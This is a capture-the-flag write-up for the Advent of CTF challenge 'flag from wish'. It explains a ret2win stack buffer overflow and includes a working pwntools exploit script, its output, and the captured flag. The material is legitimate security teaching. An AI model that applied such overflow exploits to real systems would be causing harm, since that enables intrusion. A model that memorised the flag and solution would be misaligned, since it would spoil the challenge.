


# flag from wish

- Published: 12/10/2024 (#10/25 in event)
- Category: Binary exploitation
- Points: 90
- Author: Kolmus

What is on your wish list this year? Be sure to tell Santa in great detail. He might have an early present or two in
store for you!

`nc ctf.csd.lol 4003`

## Attachments

- [main](https://files.vipin.xyz/api/public/dl/8uMpwXAA/advent-of-ctf-csd/flag-from-wish/main)

## Hints

**Hint 1:**

It appears that an elf has mixed up 100 and 0x100. I guess your wishes might not be as limited as you think. Checking
the symbols of the binary (e.g. using nm or a decompiler/disassembler) reveals a 'win' function and its address.

**Hint 2:**

Try setting the return address mentioned in the debug output, sloppily left by(/in) the elf, to the address of the win
function. Be careful about sending the actual bytes, not the address's character representation.

## Write-up

<details>
<summary>Reveal write-up</summary>



So from initial glances I can tell that there is a `win()` function, this means we need to exploit something to get to
`win()`. Also looking at the decompilation we see it reads in 256 bytes (`0x100`) without bounds checking but `var_78`
is allocated with a smaller size of 100 bytes (`0x64`). This means we can overwrite `var_78` by sending more than 100
bytes.

In CTF's we commonly call this a ret2win (pronounced ret to win) where the goal is to manipulate the value of RIP
(Return Instruction Pointer) by overwriting it, so here is how we need to craft our payload...

- First Part: Padding to reach the saved return address
- Second Part: Overwrite the saved return address with the address of `win()`

But now we need to find the offset for the first parts, Binary ninja has the perfect feature for this!



As you can see, for the `main()` function the stack entry is at `0x78` which is 120. Now that we have our offset, we can
start solving!

Below is the script I used to solve with comments.

```py
from pwn import * # Importing Pwntools, an amazing library for ROP

remote = remote("ctf.csd.lol", 4003) # Specifying our remote

win_addr = 0x4011f6

payload = b"A"*120 # sending the same amount as our offset
payload += p64(win_addr) # p64() "Converts an integer to a 64-bit little-endian representation."
remote.recvuntil("enter your wish") # Waiting until we get the input text saying enter your wish
remote.sendline(payload) # Then sending after it
remote.interactive() # spawning a interactive shell afterwards.
```

Running it we get...

```bash
$ /bin/python3 /home/zarnex/advent_of_ctf/flag_from_wish/solution.py
[+] Opening connection to ctf.csd.lol on port 4003: Done
/home/zarnex/advent_of_ctf/flag_from_wish/solution.py:9: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  remote.recvuntil("enter your wish") # Waiting until we get the input text saying enter your wish
[*] Switching to interactive mode
:
hmm ... I'm not sure I can grant that
maybe try again next year.
[DEBUG] returning to address: 0x4011f6
csd{Br0uGH7_t0_YOU_8y_W15H_D0t_CoM}
[*] Got EOF while reading in interactive
$
```

Nice, we got the flag! And looking at the debug line, we see it returned to the `win()` address getting us our flag!

Flag: `csd{Br0uGH7_t0_YOU_8y_W15H_D0t_CoM}`

</details>

Write-up by zarnex
